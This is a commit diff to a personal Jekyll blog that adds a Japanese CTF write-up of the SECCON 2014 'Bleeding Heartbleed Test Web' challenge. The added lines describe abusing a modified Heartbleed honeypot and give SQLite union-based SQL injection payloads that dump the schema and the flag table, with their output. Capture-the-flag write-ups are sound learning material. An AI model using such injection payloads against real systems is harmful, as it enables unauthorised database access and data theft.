

Before and after one commit to st98/diary, a Jekyll site: the page built from _posts/2014-12-07-seccon.md, in a window 1280 px wide and 900 px high, scrolled down 4355 px. Shown: the whole window, without its empty margins (272-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

Commit message:
Heartbleed の部分を追記

````diff
--- a/_posts/2014-12-07-seccon.md
+++ b/_posts/2014-12-07-seccon.md
@@ -124,11 +124,11 @@
 ```
 
 ### Bleeding "Heartbleed" Test Web (Web 300)
-Heartbleed のハニーポットをいじって解きました。
+まず Heartbleed が通るサーバであると騙すために Heartbleed のハニーポット ([http://packetstormsecurity.com/files/126068/Heartbleed-Honeypot-Script.html](http://packetstormsecurity.com/files/126068/Heartbleed-Honeypot-Script.html)) を渡したコマンドライン引数を返すようにいじりました。
 
-// 後で書く
-
-この time は `<!-- DEBUG: INSERT OK. TIME=1417951598 -->` といった形で出力されているので、ソースから SQLi した結果が見られます。
+このハニーポットを使って `'` を返すと `DATABASE ERROR!!! near "Server": syntax error` と表示されました。
+恐らく SQLite なのでデータベースの構造を確認するために `' union select group_concat(sql, '|') from sqlite_master;--` と返すとソースに `<!-- DEBUG: INSERT OK. TIME=CREATE TABLE results ( time, host, result )|CREATE TABLE ssFLGss ( flag )|CREATE TABLE ttDMYtt ( dummy ) -->` と出力されていました。
+得られた情報を利用して `' union select flag from ssFLGss;--` と返すと `<!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->` とソースに出力されていました。
 
 ```
 flag: SECCON{IknewIt!SQLiteAgain!!!}
````
